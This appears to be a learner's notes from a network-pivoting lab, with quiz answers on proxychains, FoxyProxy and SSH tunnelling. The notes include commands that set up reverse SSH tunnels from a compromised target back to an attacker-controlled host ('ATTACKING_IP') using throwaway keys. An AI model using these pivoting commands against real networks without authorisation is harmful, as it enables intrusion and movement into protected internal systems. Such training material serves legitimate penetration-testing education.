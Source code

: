 **What line would you put in your proxychains config file to redirect through a socks4 proxy on 127.0.0.1:4242?**

- `socks4 127.0.0.1 4242`

**What command would you use to telnet through a proxy to 172.16.0.100:23?**

- `proxychains telnet 172.16.0.100 23`

**You have discovered a webapp running on a target inside an isolated network. Which tool is more apt for proxying to a webapp: Proxychains (PC) or FoxyProxy (FP)?**

- `FP`

* * * 

## Pivoting SSH Tunnelling / Port Forwarding 

__Forward Connections__

- SSH tunneling - Port forwarding is done with the `-L` flag `ssh -L LOCAL_PORT:LOCAL_IP:TARGET_PORT TARGET_USER@TARGET_IP -fN` where the `-f` flag background the shell so we can have our terminal back, `-N` tells SSH it doesnt need to execute any commands, just setup the connection.

- Proxies are done with `-D` - Example `-D 1337` This will open up port 1337 on on the attack box as a proxy to send data through the protected network. - example `ssh -D 1337 targetuser@targetip -fN`

__Reverse Connections__

We can make reverse connections with the SSH client if we have a shell on the server but not SSH acess. They are riskier though because we have to access our attacker machine from the target, via credentials or a key system. 

1. Generate a new set of SSH keys (`ssh-keygen`). This will create 2 keys a private and a public key.
2. Copy the contents of the publick key, then edit the `authorized_keys` file on our attacker machine (if `~/.ssh/authorized_keys` doesn't exist create it).
3. On a new line type the following then paste in the public key `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty`
4. Make sure ssh service is running `sudo systemctl status ssh`
5. Now we have to transfer the generated SSH key to the box, which is why we made new throwaway SSH keys we must discard when the engagement is over.
6. With the key transferred, we can connect back with a reverse port forward with this command `ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USER@ATTACKER_UP -i KEYFILE -fN`

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it: `ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`

**Answer the questions below**

**If you're connecting to an SSH server from your attacking machine to create a port forward, would this be a local (L) port forward or a remote (R) port forward?**

- `Local`
